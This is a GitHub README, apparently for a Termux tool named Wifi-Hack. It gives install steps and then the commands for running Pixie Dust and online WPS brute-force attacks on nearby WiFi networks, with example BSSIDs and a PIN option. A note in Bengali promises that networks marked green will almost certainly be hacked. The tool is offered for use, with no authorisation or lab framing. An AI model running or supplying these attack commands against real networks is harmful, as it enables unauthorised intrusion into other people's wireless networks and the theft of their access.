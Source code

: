 ## Wifi-Hack
### Hack WIfi Using Termux! (Need Rooted Device )

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
pkg update && pkg upgrade
```
```
pkg install git python
```
```
apt update && apt upgrade
```
```
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
cd Wifi-Hack
```
```
chmod +x fück-wifi.py
```
### Note: Now turn off Wifi 
```
sudo python fück-wifi.py -i wlan0 -K
```
### Note: আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
পরের বার Tool অপেন করতে 
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
- Thanks For Using My Tool
